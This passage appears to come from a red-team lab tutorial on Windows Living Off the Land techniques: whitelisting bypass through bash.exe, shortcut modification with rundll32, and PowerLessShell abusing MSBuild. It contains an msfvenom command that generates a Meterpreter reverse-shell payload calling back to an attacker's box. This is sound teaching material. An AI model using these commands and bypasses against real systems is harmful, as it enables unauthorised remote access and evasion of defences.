 People found ways to execute payloads and bypass the Windows application whitelisting since it is a Microsoft signed binary. By executing **bash.exe -c “path-to-payload”,** we can execute any unsigned payload. ATT&CK called this an **Indirect Command execution** technique where attackers abuse the Windows tools utility to obtain command executions. For more information about this technique, you may visit the T1202 ATT&CK website.

- - -

#### **Other Techniques**

This section highlights a couple of interesting techniques used, whether for initial access or persistence. The following techniques belong to the Living Off the Land umbrella since they can be used as part of the Windows environment utilities.

**Shortcuts**

Shortcuts or symbolic links are a technique used for referring to other files or applications within the operating system. Once a user clicks on the shortcut file, the reference file or application is executed. Often, the Red team leverages this technique to gain initial access, privilege escalation, or persistence. The MITRE ATT&CK framework calls this Shortcut modification technique **T1547**, where an attacker creates or modifies a shortcut in order to take advantage of this technique.

To use the shortcut modification technique, we can set the target section to execute files using:

· Rundll32

· Powershell

· Regsvr32

· Executable on disk

the attacker can modify the Excel target section to execute a binary using **rundll32.exe**. We choose to execute a calculator instead of running the Excel application. Once the victim clicks on the Excel shortcut icon, the calc.exe is executed.

**No PowerShell!**

In 2019, Red Canary published a threat detection report stating that PowerShell is the most used technique for malicious activities. Therefore, Organizations started to monitor or block powershell.exe from being executed. As a result, adversaries find other ways to run PowerShell code without spawning it.

**PowerLessShell** is a Python-based tool that generates malicious code to run on a target machine without showing an instance of the PowerShell process. PowerLessShell relies on abusing the Microsoft Build Engine (**MSBuild**), a platform for building Windows applications, to execute remote code.

First, let’s download a copy of the project from the GitHub repo

> **user@machines: git clone PowerlessShell.git**

One of the project requirements is to get a PowerShell payload to make it suitable to work with MSBuild. On the AttackBox, we need to generate a PowerShell payload using msfvenom as follows:

> **user@machines: msfvenom -p windows/meterpreter/reverse\_winhttps LHOST AttackBox\_IP LPORT 4443 -f psh-reflection liveff.ps1**

Also, we need to run the Metasploit framework to listen and wait for the reverse shell.

Terminal
